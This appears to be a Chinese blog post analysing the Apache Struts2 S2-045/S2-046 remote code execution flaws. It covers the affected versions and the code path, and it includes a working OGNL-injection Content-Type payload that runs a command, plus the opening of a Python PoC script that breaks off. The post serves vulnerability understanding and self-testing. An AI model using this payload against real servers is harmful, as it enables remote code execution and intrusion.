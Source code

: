 title: 关于 struts s2-045和s2-046漏洞
date: 2017-03-31 09:19:28
tags: [Java,安全]
categories: Java
description: 解决思路，在struts filter之前提前触发该错误，避免进入执行ognl
---

## 漏洞简介

Struts2是一个基于MVC设计模式的Web应用框架，它本质上相当于一个servlet，在MVC设计模式中，Struts2作为控制器(Controller)来建立模型与视图的数据交互。Struts 2是Struts的下一代产品，是在 struts 1和WebWork的技术基础上进行了合并的全新的Struts 2框架。国内外都有大量厂商使用该框架。

Struts 2中此次存在远程代码执行漏洞(RCE)，主要是处理复杂数据类型时的默认解析，例文件上传，Jakarta Multipart parser，异常处理不当，进入buildErrorMessage触发点，导致OGNL代码执行。[s2-045](https://cwiki.apache.org/confluence/display/WW/S2-045)中发现是`Content-Type`出现异常处理不当。[s2-046](https://cwiki.apache.org/confluence/display/WW/S2-046)中发现`Content-Disposition`的filename存在空字节时，或者是当使用JakartaStreamMultiPartRequest(`<constant name="struts.multipart.parser" value="jakarta-stream" />`)时，`Content-Length` 的长度值超长。

## 影响版本

Struts 2.3.5 - Struts 2.3.31, Struts 2.5 - Struts 2.5.10

## 漏洞自测触发POC (来源网络)

UDPATE: 2018-06-23 change "{ &#35;" to " {% raw %}'{&#35;'{% endraw %} " for hexo or <code> {&#35; </code>

攻击者可以通过构造HTTP请求头中的Content-Type值可能造成远程代码执行。

查看struts 2.3.15.1版本
![filter中对request进行wrap](StrutsPrepareAndExecuteFilter_wrapRequest.png)
![(PrepareOperations_warprequest](PrepareOperations_warprequest.png)
![Dispatcher判断content-type是否包含multipart/form-data](Dispatcher_content-type.png)
![MultiPartRequestWrapper构造方法中调用paser](MultiPartRequestWrapper_paser.png)
![进入buildErrorMessage执行ognl](paser_buildErrorMessage.png)

### 

### S2-045 PoC_1

`Content-Type:  haha~multipart/form-data %{&#35;_memberAccess=@ognl.OgnlContext@DEFAULT_MEMBER_ACCESS,@java.lang.Runtime@getRuntime().exec('calc')};`

### S2-045 PoC_2


```python
#! /usr/bin/env python
# encoding:utf-8
import urllib2
import sys
from poster.encode import multipart_encode
from poster.streaminghttp import register_openers
def poc():
    register_openers()
    datagen, header = multipart_encode({"image1": open("tmp.txt", "rb")})
    header["User-Agent"]="Mozilla/5.0 (Macintosh; Intel Mac OS X 10_12_3) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/56.0.2924.87 Safari/537.36"
```